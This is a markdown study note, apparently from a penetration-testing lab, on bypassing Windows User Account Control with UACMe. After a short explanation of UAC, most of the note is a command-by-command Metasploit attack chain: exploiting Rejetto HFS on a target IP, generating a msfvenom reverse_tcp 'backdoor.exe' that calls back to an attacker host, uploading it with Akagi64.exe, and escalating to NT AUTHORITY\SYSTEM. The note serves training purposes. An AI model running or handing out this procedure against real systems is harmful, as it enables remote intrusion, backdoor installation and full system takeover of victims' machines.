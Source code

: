 Bypassing UAC With UACMe

#### UAC
- User Account Contorl is a Windows Security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
- UAC is used to ensure that changes to the operating system require approval from the adminitrator or a user account that is part of the local adminitrators group.
- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt,whereas a privileged user will be prompted with a consent prompt.
- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.
#### Bypassing UAC
- In order to successfully bypass UAC,we will need to have access to a user account that is a part of the local administrators group on the Windows target system.
- UAC allows a program to be executed with administrative privileges,consequently prompting the user for confirmation.
- There are multiple tools and technique that can be used to bypass UAC,however,the tool and technique used will depend on the version of Windows running on the target system.

#### Bypassing UAC with UACMe
- UACMe is an open source,robust privilge escalation tool developed by @hfire0x.It can be used to bypass Windows UAC by leveraging various techniques
- - Github: https://github.com/hfiref0x/UACME
- The UACMe github repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.
- It allows attackers to execute malicious payloads on a windows target with administrative/elevated privilges by abuisng the inbuit windows AuteElevated tool.
- The UACMe github repository has more than 60 exploits that can be used to bypass UAC  depending on the version of Windows running on the target.

#### in commnad prompt cmd
- net  users [ this will list all the users]
- net localgroup administrator [ this will list all the local members group of administrator ]
#### managing uac control
- in windows search for uac
- set the security level from GUI
#### Exploiting
- nmap 10.2.22.220 [ this will all the services]
- service postgresql start
- msfconsole
- setg RHOSTS 10.2.22.220
- search rejetto
- use exploit/windows/http/rejetto_hfs_exec 
- set everything requires
- this will give meterpreter session
- sysinfo [ for basic information ]
- pgrep explorer  [ for migrate to explorer session this will give us id ]
-  migrate 2448 [ 2448 found from previous command id and this will give us x64 bit windows ,we can check it again using sysinfo] 
- getuid [ for checking user ]
- getrivs [ trying to get privileges the current user have]
- shell [ for getting shell ]
- net users [ list all users ]
- net localgroup administrators [ this will show members of administrative group ]
- As our current user is part of administrative group we can use UAC for privilege escalation
- now back to meterpreter sessions
- now we need to create msfvenom paylaods so move in tab
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT= 1234 -f exe >backdoor.exe
- now open msfconsole in new tab
- use multi/handler
- set payload windows/meterpreter/reverse_tcp
- set LHOST 10.10.5.2
- set LPORT 1234
- now back to previous meterpeter sessions
- cd C:\\ [move to root folder\
- mkdir Temp [ create Temp directory ]
- uplaod backdoor.exe [ here backdoor.exe is msfvenom payload]
- upload /root/Desktop/tools/UACME/Akagi64.exe [ this will upload  uacme binaries into temp folder ]
- shell [ get a shell ]
- .\Akagi64.exe 23 C:\Temp\backdoor.exe [ here 23 is method from github module ]
- this will give us new meterpreter session in multi/handler
- getprivs  [ this will give us all the privileges it has ]
- ps [ list all the processes ]
- migrate 688 [ here 688 is process number,as we are privileged we can migrate to any process ]
- getuid [ this will show us NT AUTHORITY\SYSTEM ]
  
